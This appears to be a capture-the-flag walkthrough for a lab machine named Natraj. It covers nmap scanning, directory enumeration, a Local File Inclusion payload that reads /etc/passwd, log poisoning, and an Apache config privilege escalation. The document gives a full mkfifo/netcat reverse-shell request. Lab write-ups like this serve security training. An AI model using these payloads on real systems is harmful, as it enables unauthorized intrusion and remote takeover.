

# Natraj
## Recon
1. Scanning

`nmap -sn -oA host_disc ‘192.168.10.*’`

`nmap -T4 -O -A -sV -p- -sS -Pn -n -vvv -oA  scan1 192.168.10.54`

2. Enumeration

    We started by visiting the web service (port 80), where we have found several pictures and information about the Natraj, we will check the source code and robots.txt, it seems that there is nothing useful. (or at least, for the moment). So let’s proceed further.

    With the help of Dirb and it’s default dictionary, we have found a directory called “console“.

    We go in and list a file called “file.php“

    Now I decided to use the same file name as the “GET” variable and try to do a proof of concept (POC) to check if the site was vulnerable to Local File Inclusion (LFI).   
`http://192.168.10.54/console/file.php?file=../../../../../../../../../../etc/passwd`

After this, we can try writing PHP code inside the SSH command for the connection:

Great! now, we’ll put a listening netcat on port 1234 and run the command to get the reverse Shell.

`GET /console/file.php?file=/var/log/auth.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f| /bin/sh -i 2>&1 | nc 192.168.10.54 > /tmp/f| HTTP/1.1` 
We will pass this line to URL-Encode

And we will send the request as shows in image below:

3. Gaining Access

run the "linpeas" tool and see that we have to write permissions in the file `“/etc/apache2/apache2.conf”`.

I downloaded the file in my machine and edited these lines, specifying the username “mahakal”.

after editing apache2 file restart vuln machine

Now, we’ll have to create a reverse Shell in PHP so that when we will run it, we take control of it as the user “mahakal”.

`sudo -l` shows that we have the permission to run nmap binary as root and without password.

flag is here!

